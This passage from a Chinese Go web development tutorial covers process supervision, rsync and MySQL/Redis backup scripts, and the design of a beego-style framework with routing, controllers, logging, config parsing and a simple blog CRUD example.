stdout_logfile=/Users/silentcat/supervisord_log/supervisord_log.log
loglevel=info
stopasgroup=true              ;默认为false，进程被杀死时，是否向这个进程组发送stop信号，包括子进程
killasgroup=true              ;默认为false,向进程组发送kill信号，包括子进程
```

然后我们通过 supervisorctl 来更新并重新加载配置：

```shell
$ supervisorctl reread  # 读取有更新（增加）的配置文件，不会启动新添加的程序
$ supervisorctl update  # 重启配置文件修改过的程序
```

> supervisorctl 的其他子命令可以通过 help 子命令来查看。

然后我们通过 status 命令来查看转换后的 daemon 是否被创建：


同样的，我们也可以通过 web GUI 来查看创建结果：


### d. 备份和恢复

我们经常会遇到生产服务器的网络断了、硬盘坏了、操作系统崩溃、或者数据库不可用了等各种异常情况，所以维护人员需要对生产服务器上的应用和数据做好异地灾备，冷备热备的准备。接下来介绍下如何备份应用、如何备份/恢复 Mysql 数据库和 redis 数据库。

#### 应用备份

在大多数集群环境下，Web 应用程序基本不需要备份，因为这个其实就是一个代码副本，我们在本地开发环境中，或者版本控制系统中已经保持这些代码。但是很多时候，一些开发的站点需要用户来上传文件，那么我们需要对这些用户上传的文件进行备份。目前其实有一种合适的做法就是把和网站相关的需要存储的文件存储到云储存，这样即使系统崩溃，只要我们的文件还在云存储上，至少数据不会丢失。

如果我们没有采用云储存的情况下，如何做到网站的备份呢？这里我们介绍一个文件同步工具 rsync：rsync 能够实现网站的备份，不同系统的文件的同步，如果是 windows 的话，需要 windows 版本 cwrsync。

> 还有一个 go 实现的 [Rclone](https://github.com/ncw/rclone) 最近比较火 ，详细教程可以看 [这里](https://www.moewah.com/archives/876.html)。

##### rsync 安装

rysnc 的官方网站：http://rsync.samba.org/ 可以从上面获取最新版本的源码。当然，因为 rsync 是一款非常有用的软件，所以很多 Linux 的发行版本都将它收录在内了。

软件包安装

```shell
# sudo apt-get  install  rsync  注：在debian、ubuntu 等在线安装方法；
# yum install rsync    注：Fedora、Redhat、CentOS 等在线安装方法；
# rpm -ivh rsync       注：Fedora、Redhat、CentOS 等rpm包安装方法；
```

其它 Linux 发行版，请用相应的软件包管理方法来安装。源码包安装：

```shell
tar xvf  rsync-xxx.tar.gz
cd rsync-xxx
./configure --prefix=/usr  ;make ;make install   注：在用源码包编译安装之前，您得安装gcc等编译工具才行；
```

##### rsync 配置

rsync 主要有以下三个配置文件 rsyncd.conf (主配置文件)、rsyncd.secrets (密码文件)、rsyncd.motd (rysnc 服务器信息)。

关于这几个文件的配置大家可以参考官方网站或者其他介绍 rsync 的网站，下面介绍服务器端和客户端如何开启

- 服务端开启：

  ```shell
  /usr/bin/rsync --daemon  --config=/etc/rsyncd.conf
  ```

  --daemon参数方式，是让rsync以服务器模式运行。把rsync加入开机启动：

  ```shell
  echo 'rsync --daemon' >> /etc/rc.d/rc.local
  ```

  设置 rsync 密码：

  ```shell
  echo '你的用户名:你的密码' > /etc/rsyncd.secrets
  chmod 600 /etc/rsyncd.secrets
  ```

- 客户端同步：

  客户端可以通过如下命令同步服务器上的文件：

  ```shell
  rsync -avzP  --delete  --password-file=rsyncd.secrets  用户名@192.168.145.5::www /var/rsync/backup
  ```

  这条命令，简要的说明一下几个要点：

  1. -avzP 是啥，读者可以使用 —help 查看
  2. --delete 是为了比如 A 上删除了一个文件，同步的时候，B 会自动删除相对应的文件
  3. --password-file 客户端中 /etc/rsyncd.secrets 设置的密码，要和服务端的 /etc/rsyncd.secrets 中的密码一样，这样 cron 运行的时候，就不需要密码了
  4. 这条命令中的"用户名"为服务端的 /etc/rsyncd.secrets 中的用户名
  5. 这条命令中的 192.168.145.5 为服务端的IP地址
  6. ::www，注意是2个 : 号，www 为服务端的配置文件 /etc/rsyncd.conf 中的 [www]，意思是根据服务端上的 /etc/rsyncd.conf 来同步其中的 [www] 段内容，一个 : 号的时候，用于不根据配置文件，直接同步指定目录

  为了让同步实时性，可以设置 crontab，保持 rsync 每分钟同步，当然用户也可以根据文件的重要程度设置不同的同步频率。 

#### MySQL备份

应用数据库目前还是 MySQL 为主流，目前 MySQL 的备份有两种方式：热备份和冷备份，热备份目前主要是采用 master/slave 方式（master/slave 方式的同步目前主要用于数据库读写分离，也可以用于热备份数据），关于如何配置这方面的资料，大家可以找到很多。冷备份的话就是数据有一定的延迟，但是可以保证该时间段之前的数据完整，例如有些时候可能我们的误操作引起了数据的丢失，那么 master/slave 模式是无法找回丢失数据的，但是通过冷备份可以部分恢复数据。

冷备份一般使用 shell 脚本来实现定时备份数据库，然后通过上面介绍 rsync 同步非本地机房的一台服务器。

下面这个是定时备份mysql的备份脚本，我们使用了 mysqldump 程序，这个命令可以把数据库导出到一个文件中。

```shell
#!/bin/bash

# 以下配置信息请自己修改
mysql_user="USER" #MySQL备份用户
mysql_password="PASSWORD" #MySQL备份用户的密码
mysql_host="localhost"
mysql_port="3306"
mysql_charset="utf8" #MySQL编码
backup_db_arr=("db1" "db2") #要备份的数据库名称，多个用空格分开隔开 如("db1" "db2" "db3")
backup_location=/var/www/mysql  #备份数据存放位置，末尾请不要带"/",此项可以保持默认，程序会自动创建文件夹
expire_backup_delete="ON" #是否开启过期备份删除 ON为开启 OFF为关闭
expire_days=3 #过期时间天数 默认为三天，此项只有在expire_backup_delete开启时有效

# 本行开始以下不需要修改
backup_time=`date +%Y%m%d%H%M`  #定义备份详细时间
backup_Ymd=`date +%Y-%m-%d` #定义备份目录中的年月日时间
backup_3ago=`date -d '3 days ago' +%Y-%m-%d` #3天之前的日期
backup_dir=$backup_location/$backup_Ymd  #备份文件夹全路径
welcome_msg="Welcome to use MySQL backup tools!" #欢迎语

# 判断MYSQL是否启动,mysql没有启动则备份退出
mysql_ps=`ps -ef |grep mysql |wc -l`
mysql_listen=`netstat -an |grep LISTEN |grep $mysql_port|wc -l`
if [ [$mysql_ps == 0] -o [$mysql_listen == 0] ]; then
        echo "ERROR:MySQL is not running! backup stop!"
        exit
else
        echo $welcome_msg
fi

# 连接到mysql数据库，无法连接则备份退出
mysql -h$mysql_host -P$mysql_port -u$mysql_user -p$mysql_password <<end
use mysql;
select host,user from user where user='root' and host='localhost';
exit
end

flag=`echo $?`
if [ $flag != "0" ]; then
        echo "ERROR:Can't connect mysql server! backup stop!"
        exit
else
        echo "MySQL connect ok! Please wait......"
        # 判断有没有定义备份的数据库，如果定义则开始备份，否则退出备份
        if [ "$backup_db_arr" != "" ];then
                #dbnames=$(cut -d ',' -f1-5 $backup_database)
                #echo "arr is (${backup_db_arr[@]})"
                for dbname in ${backup_db_arr[@]}
                do
                        echo "database $dbname backup start..."
                        `mkdir -p $backup_dir`
                        `mysqldump -h$mysql_host -P$mysql_port -u$mysql_user -p$mysql_password $dbname --default-character-set=$mysql_charset | gzip > $backup_dir/$dbname-$backup_time.sql.gz`
                        flag=`echo $?`
                        if [ $flag == "0" ];then
                                echo "database $dbname success backup to $backup_dir/$dbname-$backup_time.sql.gz"
                        else
                                echo "database $dbname backup fail!"
                        fi
                        
                done
        else
                echo "ERROR:No database to backup! backup stop"
                exit
        fi
        # 如果开启了删除过期备份，则进行删除操作
        if [ "$expire_backup_delete" == "ON" -a  "$backup_location" != "" ];then
                 #`find $backup_location/ -type d -o -type f -ctime +$expire_days -exec rm -rf {} \;`
                 `find $backup_location/ -type d -mtime +$expire_days | xargs rm -rf`
                 echo "Expired backup data delete complete!"
        fi
        echo "All database backup success! Thank you!"
        exit
fi
```

修改 shell 脚本的属性：

```shell
chmod 600 /root/mysql_backup.sh
chmod +x /root/mysql_backup.sh
```

设置好属性之后，把命令加入 crontab，我们设置了每天 00:00 定时自动备份，然后把备份的脚本目录 /var/www/mysql 设置为 rsync 同步目录。

```shell
00 00 * * * /root/mysql_backup.sh
```

#### MySQL 恢复

前面介绍 MySQL 备份分为热备份和冷备份，热备份主要的目的是为了能够实时的恢复，例如应用服务器出现了硬盘故障，那么我们可以通过修改配置文件把数据库的读取和写入改成 slave，这样就可以尽量少时间的中断服务。

但是有时候我们需要通过冷备份的 SQL 来进行数据恢复，既然有了数据库的备份，就可以通过命令导入：

```shell
mysql -u username -p databse < backup.sql
```

可以看到，导出和导入数据库数据都是相当简单，不过如果还需要管理权限，或者其他的一些字符集的设置的话，可能会稍微复杂一些，但是这些都是可以通过一些命令来完成的。

#### redis 备份

redis 是目前我们使用最多的 NoSQL，它的备份也分为两种：热备份和冷备份，redis 也支持 master/slave 模式，所以我们的热备份可以通过这种方式实现，相应的配置大家可以参考官方的文档配置，相当的简单。我们这里介绍冷备份的方式：redis 其实会定时的把内存里面的缓存数据保存到数据库文件里面，我们备份只要备份相应的文件就可以，就是利用前面介绍的 rsync 备份到非本地机房就可以实现。

#### redis 恢复

redis 的恢复分为热备份恢复和冷备份恢复，热备份恢复的目的和方法同 MySQL 的恢复一样，只要修改应用的相应的数据库连接即可。

但是有时候我们需要根据冷备份来恢复数据，redis 的冷备份恢复其实就是只要把保存的数据库文件 copy 到 redis 的工作目录，然后启动 redis 就可以了，redis 在启动的时候会自动加载数据库文件到内存中，启动的速度根据数据库的文件大小来决定。


## *14. 如何设计一个 Web 框架*

### a. 如何设计路由方案

#### Go 默认的路由方案实现

```go
func fooHandler(w http.ResponseWriter, r *http.Request) {
	fmt.Fprintf(w, "Hello, %q", html.EscapeString(r.URL.Path))
}

http.HandleFunc("/foo", fooHandler)

http.HandleFunc("/bar", func(w http.ResponseWriter, r *http.Request) {
	fmt.Fprintf(w, "Hello, %q", html.EscapeString(r.URL.Path))
})

log.Fatal(http.ListenAndServe(":8080", nil))
```

上面的例子调用了http默认的DefaultServeMux来添加路由，需要提供两个参数，第一个参数是希望用户访问此资源的URL路径(保存在r.URL.Path)，第二参数是即将要执行的函数，以提供用户访问的资源。路由的思路主要集中在两点：

- 添加路由信息
- 根据用户请求转发到要执行的函数

Go默认的路由添加是通过函数`http.Handle`和`http.HandleFunc`等来添加，底层都是调用了`DefaultServeMux.Handle(pattern string, handler Handler)`,这个函数会把路由信息存储在一个map信息中`map[string]muxEntry`，这就解决了上面说的第一点。

Go监听端口，然后接收到tcp连接会扔给Handler来处理，上面的例子默认nil即为`http.DefaultServeMux`，通过`DefaultServeMux.ServeHTTP`函数来进行调度，遍历之前存储的map路由信息，和用户访问的URL进行匹配，以查询对应注册的处理函数，这样就实现了上面所说的第二点。

#### Go 默认路由方案的缺陷

##### 1. 不支持参数设定

例如 /user/:uid 这种泛类型匹配。

##### 2. 无法很好的支持 REST 模式，无法限制访问的方法

例如上面的例子中，用户访问 /foo，可以用 GET、POST、DELETE、HEAD 等方式访问。

##### 3. 不支持与 struct 相关联

路由多了之后其实可以进一步简化，通过关联 struct 的方法进行一种简化，但目前 Go 的默认路由实现很难支持与 struct 相关联。

#### 优化方案

以下分为路由的存储和转发两个维度去提出优化策略。

##### 路由的存储优化

针对前面所说的限制点，我们首先要解决参数支持就需要用到正则，第二和第三点我们通过一种变通的方法来解决，REST 的方法对应到 struct 的方法中去，然后路由到 struct 而不是函数，这样在转发路由的时候就可以根据 method 来执行不同的方法。

根据上面的思路，我们设计了两个数据类型 controllerInfo (保存路径和对应的 struct，这里是一个 reflect.Type 类型) 和 ControllerRegistor (routers 是一个 slice 用来保存用户添加的路由信息，以及 beego 框架的应用信息) ：

```go
type controllerInfo struct {
	regex          *regexp.Regexp
	params         map[int]string
	controllerType reflect.Type
}

type ControllerRegistor struct {
	routers     []*controllerInfo
	Application *App
}
```

ControllerRegistor 对外的接口函数有：

```go
func (p *ControllerRegistor) Add(pattern string, c ControllerInterface)
```

详细的实现如下所示：

```go
func (p *ControllerRegistor) Add(pattern string, c ControllerInterface) {
  // 分割 url 成多个 part
	parts := strings.Split(pattern, "/")

	j := 0
	params := make(map[int]string)

	fmt.Println("origin parts: ", parts)
	for i, part := range parts {
    // 如果分割的 part 中有符号 ':'，则将其提取出来
		if strings.HasPrefix(part, ":") {
      // 提供默认的正则匹配表达式
			expr := "([^/]+)"

			// 外部可以选择 override 默认的 expr
      // 例如：'/user/:id([0-9]+)'
			if index := strings.Index(part, "("); index != -1 {
				// 从 ( 到结尾
				// 例如 ([0-9]+)
				expr = part[index:]
				// 从开始到 ( ，不包含 (
				// 例如 :id
				part = part[:index]
			}
			params[j] = part
			parts[i] = expr
			j++
		}
	}

	// => params:  map[0::id]
	fmt.Println("params: ", params)
	// => parts:  [members user ([0-9]+)]
	fmt.Println("parts: ", parts)

	// 重新生成 pattern
	//by regular expressions. then compile the regex
	pattern = strings.Join(parts, "/")
	regex, regexErr := regexp.Compile(pattern)
	if regexErr != nil {
		//TODO add error handling here to avoid panic
		panic(regexErr)
		return
	}

	// 获取 c 的具体类，相当于映射到具体的 struct
	t := reflect.Indirect(reflect.ValueOf(c)).Type()
	// => main.Controller
	fmt.Println(t)
	route := &controllerInfo{}
	route.regex = regex
	route.params = params
	route.controllerType = t

  // 存储到 ControllerRegister 实例的 routers 中
	p.routers = append(p.routers, route)
}
```

##### 路由的转发优化

转发路由是基于 ControllerRegistor 里的路由信息来进行转发的，详细的实现如下代码所示：

```go
// AutoRoute
func (p *ControllerRegistor) ServeHTTP(w http.ResponseWriter, r *http.Request) {
  // 异常(panic)处理
	defer func() {
		if err := recover(); err != nil {
			if !RecoverPanic {
				// go back to panic
				panic(err)
			} else {
				Critical("Handler crashed with error", err)
				for i := 1; ; i += 1 {
					_, file, line, ok := runtime.Caller(i)
					if !ok {
						break
					}
					Critical(file, line)
				}
			}
		}
	}()
  // 是否匹配到对应路由标识
	var matched bool
  // 如果匹配到了静态路由(比如通过路由访问一个实体资源文件)
	for prefix, staticDir := range StaticDir {
		if strings.HasPrefix(r.URL.Path, prefix) {
			file := staticDir + r.URL.Path[len(prefix):]
			http.ServeFile(w, r, file)
			matched = true
			return
		}
	}
	requestPath := r.URL.Path

  // 如果不是匹配的静态路由，则去注册的routers去查询是否有对应的struct
	//find a matching Route
	for _, route := range p.routers {

		//check if Route pattern matches url
		if !route.regex.MatchString(requestPath) {
			continue
		}

    // 查找到匹配的部分
		//get submatches (params)
		matches := route.regex.FindStringSubmatch(requestPath)

		//double check that the Route matches the URL pattern.
		if len(matches[0]) != len(requestPath) {
			continue
		}

		params := make(map[string]string)
		if len(route.params) > 0 {
			//add url parameters to the query param map
			values := r.URL.Query()
			for i, match := range matches[1:] {
				values.Add(route.params[i], match)
				params[route.params[i]] = match
			}

			//reassemble query params and add to RawQuery
			r.URL.RawQuery = url.Values(values).Encode() + "&" + r.URL.RawQuery
			//r.URL.RawQuery = url.Values(values).Encode()
		}
    // 执行对应 struct 的对应处理 method，然后执行
		//Invoke the request handler
		vc := reflect.New(route.controllerType)
		init := vc.MethodByName("Init")
		in := make([]reflect.Value, 2)
		ct := &Context{ResponseWriter: w, Request: r, Params: params}
		in[0] = reflect.ValueOf(ct)
		in[1] = reflect.ValueOf(route.controllerType.Name())
		init.Call(in)
		in = make([]reflect.Value, 0)
		method := vc.MethodByName("Prepare")
		method.Call(in)
		if r.Method == "GET" {
			method = vc.MethodByName("Get")
			method.Call(in)
		} else if r.Method == "POST" {
			method = vc.MethodByName("Post")
			method.Call(in)
		} else if r.Method == "HEAD" {
			method = vc.MethodByName("Head")
			method.Call(in)
		} else if r.Method == "DELETE" {
			method = vc.MethodByName("Delete")
			method.Call(in)
		} else if r.Method == "PUT" {
			method = vc.MethodByName("Put")
			method.Call(in)
		} else if r.Method == "PATCH" {
			method = vc.MethodByName("Patch")
			method.Call(in)
		} else if r.Method == "OPTIONS" {
			method = vc.MethodByName("Options")
			method.Call(in)
		}
		if AutoRender {
			method = vc.MethodByName("Render")
			method.Call(in)
		}
		method = vc.MethodByName("Finish")
		method.Call(in)
		matched = true
		break
	}

  // 如果没有匹配到任何的路由处理 struct，则执行 NotFound 流程
	//if no matches to url, throw a not found exception
	if matched == false {
		http.NotFound(w, r)
	}
}
```

基于以上的路由设计，我们可以解决前文提到的三个限制点，使用大致如下：

1. 基本的路由支持

   ```go
   beego.BeeApp.RegisterController("/", &controllers.MainController{})
   ```

2. 参数路由支持

   ```go
   beego.BeeApp.RegisterController("/:param", &controllers.UserController{})
   ```

3. 正则路由支持

   ```go
   beego.BeeApp.RegisterController("/users/:uid([0-9]+)", &controllers.UserController{})
   ```


### b. controller 设计

#### 设计思路

前面小节介绍了路由实现了注册 struct 的功能，而 struct 中实现了 REST 方式，因此我们需要设计一个用于逻辑处理 controller  的基类，这里主要设计了两个类型，一个 struct、一个 interface：

```go
type Controller struct {
	Ct        *Context
	Tpl       *template.Template
	Data      map[interface{}]interface{}
	ChildName string
	TplNames  string
	Layout    []string
	TplExt    string
}

type ControllerInterface interface {
	Init(ct *Context, cn string)    //初始化上下文和子类名称
	Prepare()                       //开始执行之前的一些处理
	Get()                           //method=GET的处理
	Post()                          //method=POST的处理
	Delete()                        //method=DELETE的处理
	Put()                           //method=PUT的处理
	Head()                          //method=HEAD的处理
	Patch()                         //method=PATCH的处理
	Options()                       //method=OPTIONS的处理
	Finish()                        //执行完成之后的处理		
	Render() error                  //执行完method对应的方法之后渲染页面
}
```

那么前面介绍的路由 add 函数的时候是定义了 ControllerInterface 类型，因此，只要我们实现这个接口就可以，所以我们的基类 Controller 应该实现 ControllerInterface 协议的方法：

```go
func (c *Controller) Init(ct *Context, cn string) {
	c.Data = make(map[interface{}]interface{})
	c.Layout = make([]string, 0)
	c.TplNames = ""
	c.ChildName = cn
	c.Ct = ct
	c.TplExt = "tpl"
}

func (c *Controller) Prepare() {}

func (c *Controller) Finish() {}

func (c *Controller) Get() {
	http.Error(c.Ct.ResponseWriter, "Method Not Allowed", 405)
}

func (c *Controller) Post() {
	http.Error(c.Ct.ResponseWriter, "Method Not Allowed", 405)
}

func (c *Controller) Delete() {
	http.Error(c.Ct.ResponseWriter, "Method Not Allowed", 405)
}

func (c *Controller) Put() {
	http.Error(c.Ct.ResponseWriter, "Method Not Allowed", 405)
}

func (c *Controller) Head() {
	http.Error(c.Ct.ResponseWriter, "Method Not Allowed", 405)
}

func (c *Controller) Patch() {
	http.Error(c.Ct.ResponseWriter, "Method Not Allowed", 405)
}

func (c *Controller) Options() {
	http.Error(c.Ct.ResponseWriter, "Method Not Allowed", 405)
}

func (c *Controller) Render() error {
	if len(c.Layout) > 0 {
		var filenames []string
		for _, file := range c.Layout {
			filenames = append(filenames, path.Join(ViewsPath, file))
		}
		t, err := template.ParseFiles(filenames...)
		if err != nil {
			Trace("template ParseFiles err:", err)
		}
		err = t.ExecuteTemplate(c.Ct.ResponseWriter, c.TplNames, c.Data)
		if err != nil {
			Trace("template Execute err:", err)
		}
	} else {
		if c.TplNames == "" {
			c.TplNames = c.ChildName + "/" + c.Ct.Request.Method + "." + c.TplExt
		}
		t, err := template.ParseFiles(path.Join(ViewsPath, c.TplNames))
		if err != nil {
			Trace("template ParseFiles err:", err)
		}
		err = t.Execute(c.Ct.ResponseWriter, c.Data)
		if err != nil {
			Trace("template Execute err:", err)
		}
	}
	return nil
}

func (c *Controller) Redirect(url string, code int) {
	c.Ct.Redirect(code, url)
}
```

上面的 controller 基类已经实现了接口定义的函数，通过路由根据 url 执行相应的 controller 的原则，会依次执行如下：

```go
Init()      // 初始化
Prepare()   // 执行之前的初始化，每个继承的子类可以来实现该函数
method()    // 根据不同的method执行不同的函数：GET、POST、PUT、HEAD等，子类来实现这些函数，如果没实现，那么默认都是405
Render()    // 可选，根据全局变量AutoRender来判断是否执行
Finish()    // 执行完之后执行的操作，每个继承的子类可以来实现该函数
```

#### 基本使用

```go
package controllers

import (
	"github.com/astaxie/beego"
)

type MainController struct {
	beego.Controller
}

func (this *MainController) Get() {
	this.Data["Username"] = "astaxie"
	this.Data["Email"] = "astaxie@gmail.com"
	this.TplNames = "index.tpl"
}
```

index.tpl 的文件代码如下：

```html
<!DOCTYPE html>
<html>
  <head>
    <title>beego welcome template</title>
  </head>
  <body>
    <h1>Hello, world!{{.Username}},{{.Email}}</h1>
  </body>
</html>
```

上面的方式我们实现了子类 MainController，实现了 Get 方法，那么如果用户通过其他的方式 (POST/HEAD 等) 来访问该资源都将返回 405，而如果是 Get 来访问，因为我们设置了 AutoRender=true，那么在执行完 Get 方法之后会自动执行 Render 函数，就会显示如下界面：

[](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/images/13.4.beego.png?raw=true)

我们可以看到数据的设置和显示都是相当的简单方便。


### c. 日志和配置设计

#### 日志系统设计

日志设计部署的思路来自于 seelog，根据不同的 level 来记录日志，下文例子中的日志系统设计得比较轻量，采用了系统的 log.Logger 接口，默认输出到 os.Stdout，用户可以实现这个接口然后通过 SetLogger 来设置自定义的输出，详细的实现如下所示：

```go
// Log levels to control the logging output.
const (
	LevelTrace = iota
	LevelDebug
	LevelInfo
	LevelWarning
	LevelError
	LevelCritical
)

// logLevel controls the global log level used by the logger.
var level = LevelTrace

// LogLevel returns the global log level and can be used in
// own implementations of the logger interface.
func Level() int {
	return level
}

// SetLogLevel sets the global log level used by the simple
// logger.
func SetLevel(l int) {
	level = l
}
```

上面这一段实现了日志系统的日志分级，默认的级别是 Trace，用户通过 SetLevel 可以设置不同的分级。

```go
// logger references the used application logger.
var BeeLogger = log.New(os.Stdout, "", log.Ldate|log.Ltime)

// SetLogger sets a new logger.
func SetLogger(l *log.Logger) {
	BeeLogger = l
}

// Trace logs a message at trace level.
func Trace(v ...interface{}) {
	if level <= LevelTrace {
		BeeLogger.Printf("[T] %v\n", v)
	}
}

// Debug logs a message at debug level.
func Debug(v ...interface{}) {
	if level <= LevelDebug {
		BeeLogger.Printf("[D] %v\n", v)
	}
}

// Info logs a message at info level.
func Info(v ...interface{}) {
	if level <= LevelInfo {
		BeeLogger.Printf("[I] %v\n", v)
	}
}

// Warning logs a message at warning level.
func Warn(v ...interface{}) {
	if level <= LevelWarning {
		BeeLogger.Printf("[W] %v\n", v)
	}
}

// Error logs a message at error level.
func Error(v ...interface{}) {
	if level <= LevelError {
		BeeLogger.Printf("[E] %v\n", v)
	}
}

// Critical logs a message at critical level.
func Critical(v ...interface{}) {
	if level <= LevelCritical {
		BeeLogger.Printf("[C] %v\n", v)
	}
}
```

可以看到每个函数里面都有对level的判断，所以如果我们在部署的时候设置了 level=LevelWarning，那么 Trace、Debug、Info 这三个函数都不会有任何的输出，以此类推。

#### 配置模块设计

配置模块对于应用部署牵涉到服务器不同的一些配置信息非常有用，例如一些数据库配置信息、监听端口、监听地址等都是可以通过配置文件来配置，这样我们的应用程序就具有很强的灵活性，可以通过配置文件的配置部署在不同的机器上，可以连接不同的数据库之类的。

配置信息的解析，下文的例子实现了一个 key=value 的配置文件读取，类似 ini 配置文件的格式，就是一个文件解析的过程，然后把解析的数据保存到 map 中，最后在调用的时候通过几个 string、int 之类的函数调用返回相应的值，具体的实现请看下面：

首先定义了一些 ini 配置文件的一些全局性常量：

```go
var (
	bComment = []byte{'#'}
	bEmpty   = []byte{}
	bEqual   = []byte{'='}
	bDQuote  = []byte{'"'}
)
```

定义了配置文件的格式：

```go
// A Config represents the configuration.
type Config struct {
	filename string
	comment  map[int][]string  // id: []{comment, key...}; id 1 is for main comment.
	data     map[string]string // key: value
	offset   map[string]int64  // key: offset; for editing.
	sync.RWMutex
}
```

定义了解析文件的函数，解析文件的过程是打开文件，然后一行一行的读取，解析注释、空行和key=value数据：

```go
// ParseFile creates a new Config and parses the file configuration from the
// named file.
func LoadConfig(name string) (*Config, error) {
	file, err := os.Open(name)
	if err != nil {
		return nil, err
	}

	cfg := &Config{
		file.Name(),
		make(map[int][]string),
		make(map[string]string),
		make(map[string]int64),
		sync.RWMutex{},
	}
	cfg.Lock()
	defer cfg.Unlock()
	defer file.Close()

	var comment bytes.Buffer
	buf := bufio.NewReader(file)

	for nComment, off := 0, int64(1); ; {
		line, _, err := buf.ReadLine()
		if err == io.EOF {
			break
		}
		if bytes.Equal(line, bEmpty) {
			continue
		}

		off += int64(len(line))

		if bytes.HasPrefix(line, bComment) {
			line = bytes.TrimLeft(line, "#")
			line = bytes.TrimLeftFunc(line, unicode.IsSpace)
			comment.Write(line)
			comment.WriteByte('\n')
			continue
		}
		if comment.Len() != 0 {
			cfg.comment[nComment] = []string{comment.String()}
			comment.Reset()
			nComment++
		}

		val := bytes.SplitN(line, bEqual, 2)
		if bytes.HasPrefix(val[1], bDQuote) {
			val[1] = bytes.Trim(val[1], `"`)
		}

		key := strings.TrimSpace(string(val[0]))
		cfg.comment[nComment-1] = append(cfg.comment[nComment-1], key)
		cfg.data[key] = strings.TrimSpace(string(val[1]))
		cfg.offset[key] = off
	}
	return cfg, nil
}
```

下面实现了一些读取配置文件的函数，返回的值确定为 bool、int、float64 或 string：

```go
// Bool returns the boolean value for a given key.
func (c *Config) Bool(key string) (bool, error) {
	return strconv.ParseBool(c.data[key])
}

// Int returns the integer value for a given key.
func (c *Config) Int(key string) (int, error) {
	return strconv.Atoi(c.data[key])
}

// Float returns the float value for a given key.
func (c *Config) Float(key string) (float64, error) {
	return strconv.ParseFloat(c.data[key], 64)
}

// String returns the string value for a given key.
func (c *Config) String(key string) string {
	return c.data[key]
}
```

##### 示例

下面这个函数是我一个应用中的例子，用来获取远程 url  地址的 json 数据，实现如下：

```go
func GetJson() {
	resp, err := http.Get(beego.AppConfig.String("url"))
	if err != nil {
		beego.Critical("http get info error")
		return
	}
	defer resp.Body.Close()
	body, err := ioutil.ReadAll(resp.Body)
	err = json.Unmarshal(body, &AllInfo)
	if err != nil {
		beego.Critical("error:", err)
	}
}
```

函数中调用了框架的日志函数 `beego.Critica` 函数用来报错，调用了 `beego.AppConfig.String("url")` 用来获取配置文件中的信息，配置文件的信息如下 (app.conf)：

```go
appname = hs
url = "http://www.api.com/api.html"
```


### d. 实现一个博客的增删改

结合上面的几个设计点，我们实现一个支持增删改功能的博客系统。

博客目录如下所示：

```go
.
├── controllers
│   ├── delete.go
│   ├── edit.go
│   ├── index.go
│   ├── new.go
│   └── view.go
├── main.go
├── models
│   └── model.go
└── views
    ├── edit.tpl
    ├── index.tpl
    ├── layout.tpl
    ├── new.tpl
    └── view.tpl
```

#### 注册路由

博客系统主要的路由规则如下所示：

```go
//显示博客首页
beego.Router("/", &controllers.IndexController{})
//查看博客详细信息
beego.Router("/view/:id([0-9]+)", &controllers.ViewController{})
//新建博客博文
beego.Router("/new", &controllers.NewController{})
//删除博文
beego.Router("/delete/:id([0-9]+)", &controllers.DeleteController{})
//编辑博文
beego.Router("/edit/:id([0-9]+)", &controllers.EditController{})
```

#### 数据库结构

数据库设计最简单的博客信息

```sql
CREATE TABLE entries (
    id INT AUTO_INCREMENT,
    title TEXT,
    content TEXT,
    created DATETIME,
    primary key (id)
);
```

#### 控制器

IndexController:

```go
type IndexController struct {
	beego.Controller
}

func (this *IndexController) Get() {
	this.Data["blogs"] = models.GetAll()
	this.Layout = "layout.tpl"
	this.TplName = "index.tpl"
}
```

ViewController:

```go
type ViewController struct {
	beego.Controller
}

func (this *ViewController) Get() {
	id, _ := strconv.Atoi(this.Ctx.Input.Params()[":id"])
	this.Data["Post"] = models.GetBlog(id)
	this.Layout = "layout.tpl"
	this.TplName = "view.tpl"
}
```

NewController

```go
type NewController struct {
	beego.Controller
}

func (this *NewController) Get() {
	this.Layout = "layout.tpl"
	this.TplName = "new.tpl"
}

func (this *NewController) Post() {
	inputs := this.Input()
	var blog models.Blog
	blog.Title = inputs.Get("title")
	blog.Content = inputs.Get("content")
	blog.Created = time.Now()
	models.SaveBlog(blog)
	this.Ctx.Redirect(302, "/")
}	
```

EditController

```go
type EditController struct {
	beego.Controller
}

func (this *EditController) Get() {
	id, _ := strconv.Atoi(this.Ctx.Input.Params()[":id"])
	this.Data["Post"] = models.GetBlog(id)
	this.Layout = "layout.tpl"
	this.TplName = "edit.tpl"
}

func (this *EditController) Post() {
	inputs := this.Input()
	var blog models.Blog
	blog.Id, _ = strconv.Atoi(inputs.Get("id"))
	blog.Title = inputs.Get("title")
	blog.Content = inputs.Get("content")
	blog.Created = time.Now()
	models.SaveBlog(blog)
	this.Ctx.Redirect(302, "/")
}
```

DeleteController

```go
type DeleteController struct {
	beego.Controller
}

func (this *DeleteController) Get() {
	id, _ := strconv.Atoi(this.Ctx.Input.Params()[":id"])
	blog := models.GetBlog(id)
	this.Data["Post"] = blog
	models.DelBlog(blog)
	this.Ctx.Redirect(302, "/")
}
```

#### model

```go
package models

import (
	"database/sql"
	"github.com/astaxie/beedb"
	_ "github.com/ziutek/mymysql/godrv"
	"time"
)

type Blog struct {
	Id      int `PK`
	Title   string
	Content string
	Created time.Time
}

func GetLink() beedb.Model {
	db, err := sql.Open("mymysql", "blog/astaxie/123456")
	if err != nil {
		panic(err)
	}
	orm := beedb.New(db)
	return orm
}

func GetAll() (blogs []Blog) {
	db := GetLink()
	db.FindAll(&blogs)
	return
}

func GetBlog(id int) (blog Blog) {
	db := GetLink()
	db.Where("id=?", id).Find(&blog)
	return
}

func SaveBlog(blog Blog) (bg Blog) {
	db := GetLink()
	db.Save(&blog)
	return bg
}

func DelBlog(blog Blog) {
	db := GetLink()
	db.Delete(&blog)
	return
}
```

#### view

layout.tpl

```html
<html>
<head>
    <title>My Blog</title>
    <style>
        #menu {
            width: 200px;
            float: right;
        }
    </style>
</head>
<body>

<ul id="menu">
    <li><a href="/">Home</a></li>
    <li><a href="/new">New Post</a></li>
</ul>

{{.LayoutContent}}

</body>
</html>
```

index.tpl

```html
<h1>Blog posts</h1>

<ul>
{{range .blogs}}
    <li>
        <a href="/view/{{.Id}}">{{.Title}}</a>
        from {{.Created}}
        <a href="/edit/{{.Id}}">Edit</a>
        <a href="/delete/{{.Id}}">Delete</a>
    </li>
{{end}}
</ul>

```

view.tpl

```html
<h1>{{.Post.Title}}</h1>
{{.Post.Created}}<br/>

{{.Post.Content}}	
```

new.tpl

```html
<h1>New Blog Post</h1>
<form action="" method="post">
